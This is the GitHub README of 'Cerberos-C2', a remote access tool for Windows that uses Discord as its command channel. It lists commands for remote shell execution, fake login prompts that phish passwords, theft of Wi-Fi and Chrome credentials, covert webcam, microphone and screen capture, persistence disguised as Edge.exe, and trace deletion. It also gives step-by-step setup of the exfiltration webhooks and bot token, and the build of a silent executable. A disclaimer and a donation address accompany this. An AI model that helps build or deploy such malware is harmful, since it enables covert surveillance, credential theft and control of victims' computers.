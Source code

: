 # Cerberos-C2
Cerberos C2 has over 50+ Functions, Cerberos Uses Discord as the C2. Cerberos CAN ONLY BE USED TO CONTROL WINDOWS. \
Cerberos v1.0.0 is created on 09-8-2022 by Vczz0.\
Cerberos is Tested on Windows 10+\
Total Spended Hours: 25~
#### BTC: bc1ql98s5yu2yt0r0rnp4ytc76sadd2xewapszmpd3


# WARNING!!
Cerberos C2 is not created for illegal purpose. The creator is not responsible for any damage. 

# Why?
i created this program to check my coding and hacking skills, and as a contribution to the hacktoberfest 2022. 
# Requirements
1. Windows 10 for setup
2. Python 3.10.6
3. Discord Application
4. Cerberos-C2.zip

# Todo
1. Email Function.
2. More Cam / microphone functions
3. GUI application
4. Rubberducky script

# Functions
if you use a path you can use {user}. Cerberos C2 will change it to the real username
change {ID} to the client ID wich you want to control.
```
# Cerberos C2
!resetID 			       >> Resets all ID's of clients. New ID's will be used after the program restarts.
!list 				       >> Display all active client's.
!info {ID} 			       >> Displays Version of client.
!terminate {ID} 		       >> Close's Application. Wich results to lose of control of client.

# System
!cmd {ID} {INPUT}		       >> Executes a system command on client. Change {INPUT} To command.
!destruct {ID} 			       >> Delets all trace's of Cerberos C2.
!reboot {ID}                           >> Reboots Client's system.
!shutdown {ID}                         >> Shutsdowb Client's system.
!usbcheck {ID} 			       >> Checks all pluged in device's.
!vm {ID}			       >> Checks if client is vm.
!wcd {ID}			       >> Get Current working dir.
!allproc {ID} 			       >> Lists all current curring processes.
!showerror {ID} {TITLE} {MESSAGE}      >> Shows error message. Change {TITLE} To your own title and {MESSAGE} TO your own message.
!clipboard {ID} 		       >> Gets Client clipboard.
!cd {ID} {DIR}		               >> Change dir to dir given.
!wallpaper {ID} {PATH}                 >> Changes walpaper to given dir. NOTE: "GIVE WHOLE DIR, else the wallpaper is black".
!volumemax {ID}			       >> Maxes out the volume of client.
!volumedown {ID} 		       >> Set's volume to zero of client.
!say {ID} {TEXT} 		       >> Get a voice to say {TEXT}.
!url {ID} {URL} 		       >> Opens {URL} in browser. 
!winlogin {ID} 			       >> Create's a fake window login to try to get a password.
!taskkill {ID} {TASK} 		       >> Kill's a task. Either the id or name.
!wifipw {ID} 			       >> Extracts wifi passwords.
!bluescreen {ID} 		       >> Bluescreen's client.
!window {ID} 			       >> Get client window text. 
!admincheck {ID}                       >> Checks for admin rights.
!termcmd {ID}			       >> start to delete all cmd windows
!terchrome {ID} 	               >> start to delete all chrome windows
!syslan {ID} 		               >> get system language
!delclipboard {ID}	               >> delete active clipboard
!setclipboard {ID} {TEXT} 	       >> replace {TEXT} with your text. set current clipboard
# Files
!upload {ID} {LINK} {NAME} / {PATH}    >> Uploads a file. Trough link. you can upload a file in the #upload channel and copy link from there. Enter file or path to store file.
!download {ID} {FILE}		       >> Downloads file from client. 
!remove {ID} {FILE} 		       >> Removes file from client
!mkdir 				       >> Make's a dir on client.

# Mouse / Keys    		       
!key {ID} {KEY} 		       >> Clicks Key given on clients keyboard change {KEY} with the key.
!morekey {ID} {KEY}                    >> Clicks multiple Key given on clients keyboard change {KEY} with the key's.
!mousemove {ID} {coordinates} 	       >> Move's client mouse to given coordinates.
!mouseclick {ID} {coordinates} 	       >> Clicks on coordinates given.
!mouysedoubleclick {ID} {coordinates}  >> Double clicks on coordinates given.


# Cam
!screenshot {ID} 		       >> Takes a screenshot of client.
!frontcam {ID}    		       >> Takes a picture of client's frontcam.
!mic {ID}			       >> Records MIC from client for 9 seconds.
!camcount {ID} 			       >> Counts all systemcams.

# IP
!ipinfo {ID}			       >> Displays IP info of client. Country, Region etc.
!ipmap {ID} 			       >> Converts IP Lat, Long of client to a map.

# admin rights
!block {ID} 			       >> Blocks input, keyboard, mouse.
!unblock {ID} 			       >> Unblocks input. 
!displayoff {ID} 		       >> Blocks client input and set a black screen.
!displayon {ID} 		       >> Unblock client input and removes blackscreen. 

#persist
!persist {ID}			       >> Creates persistance on client. Exe: Edge.exe Regname: Edge.
!peristcheck {ID}		       >> Checks for persistance on client.
!persistdelete {ID}                    >> Tries to delete persistance.

# Chrome
!chromehistory {ID}		       >> Gets Chrome history of client. 
!chromecred {ID} 		       >> Extracts Chrome passwords.

#Rickroll
!rickroll {ID}			       >> Open's a rickroll video.

```





 

# Instalation
1. Click on [this link](https://www.python.org/ftp/python/3.10.6/python-3.10.6-amd64.exe) to download python 3.10.6.
2. Open te Python application.
3. Click "[ ] Add Python 3.10.6 to path] > "install now". Wait till finished after that you can close the Python application.
4. Open the Github of Cerberos-C2 > Click on "Code" > "Download ZIP". Wait till download is finished.
5. Unzip "Cerberos-C2.zip".
6. Open the folder "Cerberos-C2".
7. Right click on mouse and click on "Properties" > copy the "Location".
8. Open "CMD" > type: "cd" paste the copied Location + \Cerberos-C2 > hit "Enter".
9. Type: ```pip install -r requirements.txt```. Wait till its finished. Click on "-" To Minimize CMD.
10. Open Cerberus-C2 Folder again and double Click on the folder "main" > right click on "main.py" > "Edit" > "Edit with EDILE". Or you can edit it with Notepad. Minimize the Edile.
11. Click on [this link](https://discord.new/4A2stHvnUmXV) to copy the server template.
12. Change the server name to: "Cerberos C2".
13. Click on the green button "Create".
14. Open Discord > Click on the Server "Cerberos C2" > Click on "Cerberos C2" > "Server Settings" > "Integrations" > "Create Webhook".
15. Change the name of the webhook To: "Cerberos-AgentOnline" > Set channel to: "#agent-online" > Click On "Copy Webhook URL".
16. Open The Idle to change "main.py". Scroll till you see: AGENT_ONLINE_ID = "[AGENT_ONLINE_WBHOOK]". Replace [AGENT_ONLINE_WBHOOK] with your Copied Cerberos-AgentOnline Webhook setup earlier.
17. Click on "New Webhook" > change the name to "Cerberos-C2" > Channel to: "#c2"  > "Copy Webhook URL". 
18. Open The Idle to change "main.py". Scroll till you see: COMMAND_CONTROL_ID = "[C2_WEBHOOK]". Replace [C2_WEBHOOK] with your Copied Cerberos-C2 Webhook setup earlier.
19. Click on "New Webhook" > change the name to "Cerberos-Screenshots" > Channel to: "#screenshots" > "Copy Webhook URL".
20. Open The Idle to change "main.py". Scroll till you see: SCREENSHOT_ID = "[SCREENSHOT_WEBHOOK]". Replace [SCREENSHOT_WEBHOOK] with your Copied Cerberos-Screenshots Webhook setup earlier.
21. Click on "New Webhook" > change the name to "Cerberos-Webcam" > Channel to: "#webcam" > "Copy Webhook URL".
22. Open The Idle to change "main.py". Scroll till you see: WEB_CAM_ID = "[WEBCAM_WEBHOOK]". Replace [WEBCAM_WEBHOOK] with your Copied Cerberos-Webcam Webhook setup earlier.
23. Click on "New Webhook" > change the name to "Cerberos-Microphone" > Channel to: "#microphone"  > "Copy Webhook URL".
24. Open The Idle to change "main.py". Scroll till you see: MIC_ID = "[MICROPHONE_WEBHOOK]". Replace [MICROPHONE_WEBHOOK] with your Copied Cerberos-Microphone Webhook setup earlier.
25. Click on "New Webhook" > change the name to "Cerberos-Downloads" > Channel to: "#downloads" > "Copy Webhook URL".
26. Open The Idle to change "main.py". Scroll till you see: DOWNLOAD_ID = "[DOWNLOAD_WEBHOOK]". Replace [DOWNLOAD_WEBHOOK] with your Copied Cerberos-Downloads Webhook setup earlier.
27. Open your webbrowser and go to the discord developer portal website. You might have to login.
28. Click on "New application" > Set The Name Tho "Cerberos-C2" > "Create". By clicking on the image of the bot you set an logo if you want. The Logo can be found in the zip. 
29. On The left side click on "OAuth2" > "URL Generator". Click on "Bot". Then click on "Administrator.
30. Then there is a generated link click on "Copy". 
31. Open a new tab and enter the link. Note: "Sometimes it takes a bit of time".
32. Select the server: Cerberos C2.
33. click on "continue" > "authorize". do the verification.
34. Go back to the developer portal and go to "Bot" > "Copy" To copy the token. or you have to click "Reset" and then copy the token.
35. Open The Idle to change "main.py". Scroll till you see: BOT_TOKEN = "[BOT_TOKEN_HERE]". Replace [BOT_TOKEN_HERE] with your Copied Bot token setup earlier
36. Open the cmd window again. now type: ```pyinstaller main\main.py --onefile --noconsole --i \ico\exe.ixo``` and hit "Enter"
37. You can find the exe in the dist dir. 

